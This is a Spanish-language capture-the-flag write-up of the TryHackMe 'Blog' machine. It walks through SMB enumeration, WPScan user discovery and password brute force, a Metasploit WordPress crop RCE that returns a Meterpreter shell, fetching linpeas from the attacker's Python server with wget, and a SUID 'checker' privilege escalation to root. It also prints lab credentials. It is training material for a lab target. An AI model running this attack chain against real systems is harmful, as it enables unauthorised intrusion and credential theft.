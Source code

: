 # Blog

**Platform:** TryHackMe  
**Difficulty:** Medium  
**IP:** 10.10.229.124

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas, una disponible desde un usuario y otra desde root  
- **Herramientas iniciales:** `nmap`, `wpscan`, `wget`, `smbclient`, `linpeas.sh`, `metasploit`, `mysql`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV 10.10.229.124
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Al estar abiertos los puertos 139 y 445, probamos a entrar de manera anónima y nos permite descargarnos tres archivos de BillySMB.

![Reconocimiento de SMB anónimo](screenshots/2.smb-anon.png)
![Obtención de ficheros desde SMB](screenshots/3.smb-list.png)

El archivo Alice-White-Rabbit.jpg contiene un fichero de texto en su interior, pero nada muy relevante ya que solo se trata de una pista.

Ahora vamos a tratar de investigar el sitio web para buscar vulnerabilidades. Para el que debemos de añadir el host blog.thm al fichero /etc/hosts.

![Fichero /etc/hosts](screenshots/4.hosts.png)
![Vista del sitio web](screenshots/4.5.png)

Aparentemente no encontramos nada especial, simplemente un WordPress con un blog, pero si tratamos de utilizar la herramienta `WPScan` la cosa cambia.

Tratamos de descubrir toda la información posible y nos devuelve dos nombres de usuario que podemos usar para iniciar sesión en el panel de Wordpress (bjoel y kwheel):
```bash 
wpscan --url http://blog.thm --enumerate u,p,t,vp,vt
```
![Escaneo del sitio web con wpscan](screenshots/5.wp-scan-users.png)

Conociendo estos nombre de usuario, lo que se me ocurre es realizar un ataque de fuerza bruta al loguin de WordPress aprovechando la herramienta WPScan, a la que no habría que meterle tantos parámetros como a Hydra.

```bash 
wpscan --url http://blog.thm/wp-login.php --usernames bjoel,kwheel --passwords /usr/share/wordlists/rockyou.txt
```

![Comienzo de fuerza bruta con WPScan](screenshots/6.1-wpscan-bf1.png)
![Obtención de credenciales para el inicio de sesión](screenshots/6.1-wpscan-bf2.png)

Efectivamente, hemos encontrado unas credenciales válidas:
`kwheel:cutiepie1`

Si accedemos al panel de control de WordPress no tenemos mucho que hacer, ya que nos bloquea si tratamos de crear alguna shell. Igualmente obtenemos la versión de WordPress que sería la 5.0.

![Panel de administrador de WordPress](screenshots/7wp-version5.0.png)

En consecuencia, podemos buscar algún exploit de Metasploit en el que utilizar las credenciales.
Tras mirar varios de ellos y consultar por internet, el primero parece ser la mejor opción

![Elección de exploit en Metasploit](screenshots/8.msfconsole.png)

Usaremos el exploit multi/http/wp-crop-rce, al cuál le debemos de ingresar algunos parámetros y cuando lo ejecutamos nos debería de devolver una shell de Meterpreter.

```bash 
set rhosts blog.thm
set lhost 10.8.29.132
set username kwheel
set password cutiepie1
```

![Configuración de exploit elegido para generar shell de Meterpreter](screenshots/9.meterpreter.png)

Cuando ejecutamos el exploit nos devuelve la shell correctamente. Tratamos de investigar varios directorios personales y permisos para escala de privilegios pero no conseguimos nada.

![Listado de directorios de usuarios comunes](screenshots/10.bjoel_user_txt.png)

La otra opción era subir el fichero linpeas.sh y descubrir vulnerabilidades a través de él, por lo que finalmente fue la mejor opción.
Creamos un servidor Python en la localización de nuestro fichero y lo descargamos desde la máquina víctima con Wget.

```bash 
python -m http.server 1234
```

```bash 
wget http://10.8.29.132:1234/linpeas.sh
```

![Servidor python para poder descargar el fichero Linpeas](screenshots/11.python_server.png)

![Descarga del fichero Linpeas en máqunia local](screenshots/12.downloading_linpeas.png)

Cuando se haya descargado por completo, debemos de otorgarle permisos de ejecución y ejecutarlo para comenzar a encontrar vulnerabilidades.
```bash 
chmod a+x linpeas.sh
./linpeas.sh
```
El programa nos muestra el fichero de configuración de WordPress donde obtenemos unas credenciales: `wordpressuser:LittleYellowLamp90!@`.

![Listado de ficheros de WordPress por Linpeas con credenciales](screenshots/13.linpeass_credentials.png)

Si accedemos al fichero donde se han encontrado, en este se indica que son de MySQL, por lo que podremos acceder a ella y buscar alguna bandera.

```bash 
mysql -u wordpressuser -p
show databases;
use blog
show tables;
select * from wp_users
```

![Usuarios y hashes obtenido desde la base de datos](screenshots/15.mysql-passw.png)

Encontramos credenciales pero estas son de WordPress, por lo que no nos son de mucha utilidad.
Si seguimos buscando en Linpeas, nos destaca otro fichero `/usr/sbin/checker`, el cuál contiene permisos SUID.

![Ficheros con permisos de SUID](screenshots/16.checker.png)

Si observamos el código con ltrace, vemos como comprueba la variable de entorno admin. Con esta herramienta no nos muestra mucho más, pero simplemente podemos probar a establecer la variable admin a 1 y ejecutar el programa.

```bash 
ltrace /usr/sbin/checker
export admin=1
```

![Explotación del fichero checker](screenshots/17.root.png)

De esta manera hemos conseguido hacernos usuario root, y con todos los permisos listaremos la bandera del directorio /root y buscaremos la del usuario, ya que nos dicen que busquemos mejor cuando consultamos el primer fichero.

```bash 
cat /root/root.txt
find / -type f -name user.txt 2>/dev/null
cat /media/usb/user.txt
```

![Búsqueda de banderas para finalizar](screenshots/18.flags.png)
